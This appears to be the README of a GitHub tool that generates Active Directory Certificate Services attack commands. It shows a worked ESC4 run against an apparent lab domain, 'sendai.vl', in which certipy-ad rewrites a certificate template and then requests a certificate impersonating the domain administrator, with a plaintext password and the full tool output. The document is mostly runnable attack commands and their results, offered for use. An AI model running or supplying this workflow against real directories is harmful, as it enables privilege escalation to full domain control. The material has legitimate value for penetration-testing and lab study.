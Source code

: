 https://github.com/lineeralgebra/autoADCS

    ➜  autoADCS git:(main) python3 autoadcs.py 
    === ADCS Attack Command Generator ===
    Choose an attack vector:
    1. ESC1
    3. ESC3
    4. ESC4
    6. ESC6
    7. ESC7
    8. ESC8
    9. ESC9
    11. ESC11
    13. ESC13
    Enter your choice (1 or 3 or 4 or 7 or 8 or 9 or 11 or 13): 4
    Enter username: clifford.davey
    Enter domain: sendai.vl
    Enter password: RFmoB2WplgE_3p
    Enter template: SendaiComputer
    Enter ca: sendai-DC-CA
    Enter upn: administrator@sendai.vl

    Generated Commands:
    certipy-ad template -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old

    certipy-ad req -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -ca sendai-DC-CA -target sendai.vl -template SendaiComputer -upn administrator@sendai.vl

#### commands

    ➜  sendai certipy-ad template -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Saved old configuration for 'SendaiComputer' to 'SendaiComputer.json'
    [*] Updating certificate template 'SendaiComputer'
    [*] Successfully updated 'SendaiComputer'

get administrator.pfx

    ➜  sendai certipy-ad req -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -ca sendai-DC-CA -target sendai.vl -template SendaiComputer -upn administrator@sendai.vl

    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 5
    [*] Got certificate with UPN 'administrator@sendai.vl'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'

